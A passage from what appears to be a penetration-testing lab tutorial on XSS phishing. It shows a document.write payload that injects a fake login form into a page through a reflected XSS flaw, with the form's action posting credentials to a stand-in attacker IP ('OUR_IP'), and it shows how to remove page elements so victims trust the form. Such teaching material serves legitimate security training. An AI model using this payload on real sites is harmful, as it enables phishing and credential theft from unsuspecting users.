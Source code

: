 In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

Code: html

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

![](https://academy.hackthebox.com/storage/modules/103/xss\_phishing\_injected\_login\_form.jpg)

***

### Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[`CTRL+SHIFT+C`] and then clicking on the element we need: ![Page Inspector Picker](https://academy.hackthebox.com/storage/modules/103/xss\_page\_inspector\_picker.jpg)

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

Code: html

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```
